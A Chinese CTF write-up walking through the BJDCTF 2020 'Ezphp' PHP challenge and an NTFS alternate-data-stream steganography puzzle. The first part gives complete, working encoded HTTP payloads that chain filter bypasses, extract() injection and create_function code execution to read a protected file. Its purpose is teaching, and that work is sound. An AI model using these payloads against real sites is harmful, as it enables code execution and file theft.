NSSCTF WP 14
===

## [WEB] [BJDCTF 2020] Ezphp

### 题解

打开题目网站, 没有有价值信息, 抓包发现注释:

```html
<!-- Here is the real page =w= -->
<!-- GFXEIM3YFZYGQ4A= -->
```

这是一段 Base32 编码, 解码得到: `1nD3x.php`



访问后审计一段源码:

```php
<?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```

### `$_SERVER` 绕过

首先绕过第一处正则 (`if($_SERVER)`), `shana` 和 `debu` 要传入就必须绕这个正则:

`$_SERVER` 中的 GET 变量不会被转译, 因此可以直接用 URL 编码绕过;

> 例如 `debu` => `%64%65%62%75`

### 正则绕过

接下来 `debu` 必须匹配正则表达式 `/^aqua_is_cute$/`, 整个字符串必须是 *aqua_is_cute*, 但是不能强等于其本身, 考虑使用特殊字符, 这里用 `%0a`:

> 因为 `$` 会匹配换行符 `%0a` 之前的位置; 而由于多出一个字符, 字符串比较为 `false`



```http
GET
%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a
```

绕过成功

### `$_REQUEST` 特性绕过

下一处检测 `$_REQUEST`, 禁止有英文; 此处需要利用 `$_REQUEST` 特性:

> `$_RESQUEST` 可以同时接受 GET 和 POST 传参, 当两者同时传入同名参时, **POST 优先级更搞, 会覆盖**。

```http
(POST)
debu=1
```



至此绕过成功;

### SHA1 强比较绕过

接下来是经典的两变量不等, SHA1 强相等; 传入数组则两边都是 `false`, 即可绕过:

```http
(GET)
%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2
```

### file 绕过

接下来绕过 file: 由于源码中对 GET 读取的变量用了 `file_get_contents`, 考虑使用 `data://` 伪协议:

```
data://plain/text,debu_debu_aqua
```

结合之前的手法, 绕过:

```http
(GET)
%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%69%6c%65=%64%61%74%61%3a%2f%2f%70%6c%61%69%6e%2f%74%65%78%74%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61
(POST)
debu=1&file=1
```



绕过成功;

### extract 绕过 + 构造

最后是 `extract($_GET["flag"]);`, 结合之后的 `$code` 内容, 应该是需要在 flag 中注入 code + arg 两个参数。

设计 code 内容, 大部分可利用的函数被禁用了; 直接用系统函数不可行, 但 `create_function` 可用;

根据这个目标: `$code('', $arg); `, 可以这么构造:

> `create_function('', $arg);` 等效于 `eval("function λ() { " . $arg . " }");`

```php
code=create_function
arg=}var_dump(get_defined_vars());//
```

调整后的 payload:

```http
POST /1nD3x.php?%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%69%6c%65=%64%61%74%61%3a%2f%2f%70%6c%61%69%6e%2f%74%65%78%74%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%66%6c%61%67[%63%6f%64%65]=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67[%61%72%67]=%7d%76%61%72%5f%64%75%6d%70%28%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73%28%29%29%3b%2f%2f
```



根据回显, 真正的 flag 在 `rea1fl4g.php`;

本来 `include`  + 伪协议读取, 但是此处 ban 掉了 `include` 和伪协议关键字 `fil`, 那么换用:

> `require(base64_decode(cmVhMWZsNGcucGhw));var_dump(get_defined_vars());//`

> ```
> /1nD3x.php?%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%69%6c%65=%64%61%74%61%3a%2f%2f%70%6c%61%69%6e%2f%74%65%78%74%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%66%6c%61%67[%63%6f%64%65]=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67[%61%72%67]=%7d%72%65%71%75%69%72%65%28%62%61%73%65%36%34%5f%64%65%63%6f%64%65%28%63%6d%56%68%4d%57%5a%73%4e%47%63%75%63%47%68%77%29%29%3b%76%61%72%5f%64%75%6d%70%28%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73%28%29%29%3b%2f%2f
> ```




太恶心了, 依然是假 flag;

### 伪协议取反绕过

可能是这个 `rea1fl4g.php` 对 flag 做了混淆; 要读出这个逻辑, 还是得读 `rea1fl4g.php` 源码, 那么还是得用 伪协议, 由于被屏蔽, 这里只能取反:

```php
く?php
$a="php://filter/read=convert.base64-encode/resource=rea1fl4g.php"；
echo urlencode(~$a);
?>
```

> `%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F`

最终 payload:

```
POST /1nD3x.php?%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%69%6c%65=%64%61%74%61%3a%2f%2f%70%6c%61%69%6e%2f%74%65%78%74%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%66%6c%61%67[%63%6f%64%65]=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67[%61%72%67]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));%76%61%72%5f%64%75%6d%70%28%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73%28%29%29%3b%2f%2f

debu=1&file=1
```





终于拿到了 flag;

### 总结

这道题虽然很恶心, 但是特性覆盖的比较全, 总体还是挺有价值的;

## [MISC] [SWPU 2019] 漂流记的马里奥

### 基于 ADS 的 NTFS 隐写

#### NTFS 文件系统

在 NTFS 文件系统中, 一个文件可以有多个数据流:

- **主数据流**: 普通文件存储之处, 格式: `文件名:属性名:$DATA`, 属性名通常为空;

- **交换数据流**: 交换文件流, NTFS 允许在同一个文件节点下创建多个额外的数据流。普通文件管理器和**无参数**的 `dir` 命令, 以及大部分常规软件是**不可见**的;

#### 局限

- 跨系统失效： 如果将文件移动到 FAT32、exFAT 或通过网络上传到不支持 ADS 的云盘，所有的交换数据流都会丢失，只剩下主数据流。
- 专用工具检测： 使用 `dir /r` 命令可以列出当前目录下所有的交换数据流。专业的取证工具和部分杀毒软件也能轻易扫描出异常流的存在。

#### 隐写操作

> 本质上是利用文件系统的命名规范, 将秘密信息挂载到现有的宿主文件上。

在 NTFS 分区创建 ADS 数据流文件有两种形式: 
- 指定宿主文件;
- 创建单独的 ADS 文件;

常见创建命令:
- `echo` 用于输入常规字符;
- `type` 则用于将文件附加到目标文件;

例如:

1. 挂载到文件

    ```bash
    echo "hello world" > 3.txt:flag.txt
    ```

    这个操作就等于在 `3.txt` 这个 "信封" 里面开了一个叫做 `flag.txt` 的夹层, 放了一张纸条进去, 内容是 `hello world`;

2. 直接挂载到当前目录:

    ```bash
    echo "hello world" > :mo.txt
    ```

    这种方式更隐蔽, 宿主文件留空会直接挂在当前目录下;


    > 在这两种情况下, 用 notepad 等工具可以直接对 ADS 文件流做编辑, 例如:
    >
    > ```bash
    > notepad :mo.txt
    > ```
    >
    > 或者用
    >
    > ```bash
    > dir /r
    > ```
    >

### 题解

题目是一个 `exe` 文件, 用 `binwalk` 直接扫出隐藏文件:



解压出一个 `1.txt`, 访问内容:

```
ntfs      
flag.txt
```

```cmd
notepad 1.txt:flag.txt
```



或者直接用 `dir /r` 也可以发现:

